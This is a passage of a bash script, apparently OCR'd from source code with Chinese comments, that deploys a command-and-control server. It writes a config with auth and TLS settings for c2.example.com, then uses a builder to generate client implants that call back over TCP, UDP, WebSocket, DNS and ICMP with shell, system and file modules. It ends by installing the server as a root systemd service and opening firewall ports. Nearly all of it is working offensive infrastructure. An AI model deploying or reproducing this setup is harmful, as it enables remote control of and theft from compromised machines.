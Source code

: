 ```bash
  "max_connections": 1000,
  "buffer_size": 4096,
  "auth_enabled": true,
  "auth_user": "admin",
  "auth_password": "$(openssl rand -base64 16)",
  "jwt_enabled": true,
  "jwt_secret": "$(openssl rand -base64 32)",
  "log_file": "/var/log/c2server/server.log",
  "tls_enabled": true,
  "tls_cert_file": "/etc/letsencrypt/live/c2.example.com/fullchain.pem",
  "tls_key_file": "/etc/letsencrypt/live/c2.example.com/privkey.pem"
}
EOF

# 4. 生成客户端
/opt/c2server/bin/builder build -p tcp,udp,ws,dns,icmp -d c2.example.com -s tcp:c2.example.com:8080,udp:c2.example.com:8081,ws:c2.example.com:8082,dns:c2.example.com:8053,icmp:c2.example.com -m shell,system,file -e aes -o /opt/c2server/clients/client

# 5. 创建systemd服务
cat > /etc/systemd/system/c2server.service << EOF
[Unit]
Description=C2 Server
After=network.target

[Service]
Type=simple
User=root
WorkingDirectory=/opt/c2server
ExecStart=/opt/c2server/bin/server --config /opt/c2server/configs/server.json
Restart=always
RestartSec=5
LimitNOFILE=65535

[Install]
WantedBy=multi-user.target
EOF

# 6. 启动服务
systemctl daemon-reload
systemctl enable c2server
systemctl start c2server

# 7. 配置防火墙
ufw allow 8080/tcp
ufw allow 8081/udp
ufw allow 8082/tcp
ufw allow 8053/udp
ufw allow from 10.0.0.0/24 to any port 8090

# 8. 显示服务状态
systemctl status c2server
echo "API认证信息保存在 /opt/c2server/configs/server.json"
```
